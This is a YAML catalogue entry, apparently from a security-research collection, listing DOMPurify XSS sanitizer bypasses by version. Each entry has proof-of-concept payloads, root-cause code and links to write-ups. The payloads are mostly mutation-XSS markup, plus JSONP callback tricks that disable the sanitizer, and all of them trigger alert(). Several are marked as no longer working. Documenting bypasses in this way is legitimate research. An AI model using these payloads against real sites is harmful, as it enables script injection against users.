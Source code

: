 ```yaml
---
description: DOMPurify - a DOM-only, super-fast, uber-tolerant XSS sanitizer for HTML, MathML and SVG. DOMPurify works with a secure default, but offers a lot of configurability and hooks. https://cure53.de/purify
github: cure53/DOMPurify
gadgets:
  Latest:
    authors:
      - twitter:parrot409
      - twitter:xssjp
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - script-tag
      - src-attr
      - before-lib-load
      - func-call-parameter
    pocs:
      - description: |
          In case it is possible to execute limited arbitrary javascript code, like on a `/[\w\s.]/` jsonp endpoint, it is possible to `delete document.implementation.__proto__.createHTMLDocument` before DOMPurify is loaded to disable DOMPurify.
        code: |
          <!-- user input -->
          <!-- Act like this is a JSONP endpoint -->
          <script src="[current-location]/assets/xss/dompurify-jsonp-1.js?callback=delete document.implementation.__proto__.createHTMLDocument"></script>

          <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.2.6/purify.min.js"></script>
          <script>
            // user input
            const clean = DOMPurify.sanitize("<img src=x onerror=alert(document.domain)>");
            document.body.innerHTML = clean;
          </script>
      - description: |
          The same can be done after DOMPurify is loaded, by deleting `DOMPurify.isSupported`.
        code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.2.6/purify.min.js"></script>

          <!-- user input -->
          <!-- Act like this is a JSONP endpoint -->
          <script src="[current-location]/assets/xss/dompurify-jsonp-2.js?callback=delete DOMPurify.isSupported"></script>

          <script>
            // user input
            const clean = DOMPurify.sanitize("<img src=x onerror=alert(document.domain)>");
            document.body.innerHTML = clean;
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/cure53/DOMPurify/blob/ec86d9068d4f5a2505b85e12cff9921f304bdda7/src/purify.ts#L193">https://github.com/cure53/DOMPurify/blob/ec86d9068d4f5a2505b85e12cff9921f304bdda7/src/purify.ts#L193</a>

      ```javascript
      DOMPurify.isSupported =
        typeof entries === 'function' &&
        typeof getParentNode === 'function' &&
        implementation &&
        implementation.createHTMLDocument !== undefined;
      ```

      Source: <a target="_blank" href="https://github.com/cure53/DOMPurify/blob/ec86d9068d4f5a2505b85e12cff9921f304bdda7/src/purify.ts#L1479">https://github.com/cure53/DOMPurify/blob/ec86d9068d4f5a2505b85e12cff9921f304bdda7/src/purify.ts#L1479</a>

      ```javascript
      if (!DOMPurify.isSupported) {
        return dirty;
      }
      ```
    links:
      - https://hackmd.io/@hakatashi/HkgG02U4t
  ≤3.1.2:
    authors:
      - twitter:kevin_mizu
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <form id="x ">
          <r*504>
          <a>
            <svg>
              <desc>
                <svg>
                  <image>
                    <a>
                      <desc>
                        <svg>
                          <image></image>
                        </svg>
                      </desc>
                    </a>
                  </image>
                  <style><a id="</style><img src=x onerror=alert(1)>"></a></style>
                </svg>
              </desc>
            </svg>
          </a>
          </form>
          <input form="x" name="__depth">
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=27b201c4-9ba9-454a-b92c-ad6f87168040
    links:
      - https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#dompurify-3.1.2-bypass
  ≤3.1.1:
    authors:
      - twitter:kevin_mizu
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <div*200>
          <form><input name="parentNode">
          <div*200>
          <form></form><form><input name="parentNode">
          <div*105>
          <table>
            <caption>
              <svg>
                <desc>
                  <table><caption></caption></table>
                </desc>
                <style><a title="</svg></style><img src onerror=alert(1)>"></a></style>
                </svg>
            </caption>
          </table>
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=bc4910dd-3c0f-4125-952b-20320468ef2d
    links:
      - https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#dompurify-3.1.1-bypass
  ≤3.1.0:
    authors:
      - twitter:IcesFont
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <div*506>
          <table>
            <caption>
              <svg>
                <title>
                  <table><caption></caption></table>
                </title>
                <style><a id="</style><img src=x onerror=alert()>"></a></style>
              </svg>
            </caption>
          </table>
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=aeb6a690-58b9-47c6-b2ca-99c07f9db43b
    links:
      - https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#dompurify-3.1.0-bypass
  ≤2.2.2:
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <math><mtext><h1><a><h6></a></h6><mglyph><svg><mtext><style><a title="</style><img src onerror='alert(1)'>"></style></h1>
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=15b5b74c-1c36-4df7-9bc6-2fccfc891683
    links:
      - https://github.com/cure53/DOMPurify/commit/8ab47b0a694022b396e30b7f643e28971f75f5d8
  ≤2.2.0:
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(1) src>">
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=eff07c77-918a-4399-b92f-732095e3e9d4
    links:
      - https://github.com/cure53/DOMPurify/issues/482
      - https://vovohelo.medium.com/from-svg-and-back-yet-another-mutation-xss-via-namespace-confusion-for-dompurify-2-2-2-bypass-5d9ae8b1878f
  ≤2.0.16:
    authors:
      - twitter:garethheyes
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=249819f1-732f-4edf-b7ba-866ebcf358d8
    links:
      - https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
  ≤2.0.15:
    authors:
      - twitter:securitymb
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - func-call-parameter
    pocs:
      - description: Default configuration bypass.
        code: |
          <form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=a0b5393e-c9b1-4717-90cc-de2bb405afa4
      - code: |
          <math><mtext><table><mglyph><style><math><table id="</table>"><img src onerror=alert(1)">
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=36a7d20f-f042-44fe-bdd9-11b97773517e
    links:
      - https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
  ≤2.0.0:
    cve: CVE-2019-16728
    authors:
      - twitter:securitymb
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <svg></p><style><a id="</style><img src=1 onerror=alert(1)>">
        preview: false
      - code: |
          <math></p><style><a id="</style><img src=1 onerror=alert(1)>">
        preview: false
    links:
      - https://research.securitum.com/dompurify-bypass-using-mxss/
---
```

